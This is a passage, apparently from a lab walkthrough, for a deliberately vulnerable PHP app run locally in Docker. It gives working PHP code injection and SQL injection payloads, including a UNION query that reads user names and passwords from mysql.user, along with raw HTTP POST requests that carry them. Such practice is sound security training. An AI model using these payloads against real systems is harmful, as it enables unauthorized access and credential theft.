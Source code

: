The key is to verify the request takes the amount of time you're telling it to

## PHP Code Injection

http://127.0.0.1:2000/phpi.php?message=phpinfo()

## Server-side includes injection

Doesn't seem to work on the docker version

## SQL Injection (get)

' or 1 union all select 1,2,User,Password,5,6,7 from mysql.user -- '


## SQL Injection (select/get)

0 or 1 != 1 union all select 1,2,3,4,5,6,7

## SQL Injection (POST/Search)

{% highlight bash %}
POST /sqli_6.php HTTP/1.1
Host: localhost:2000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Referer: http://localhost:2000/sqli_6.php
Cookie: security_level=0; PHPSESSID=5vmnafast16eicmr5tmf7b63h7
Connection: close
Upgrade-Insecure-Requests: 1

title=' or 1 = 1 -- '&action=search
{% endhighlight %}

## SQL Injection (post/select)

{% highlight bash %}
POST /sqli_13.php HTTP/1.1
Host: localhost:2000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Referer: http://localhost:2000/sqli_13.php
Cookie: security_level=0; PHPSESSID=5vmnafast16eicmr5tmf7b63h7
Connection: close
Upgrade-Insecure-Requests: 1

movie=0 or 1 != 1 union all select 1,2,3,4,5,6,7&action=go
{% endhighlight %}
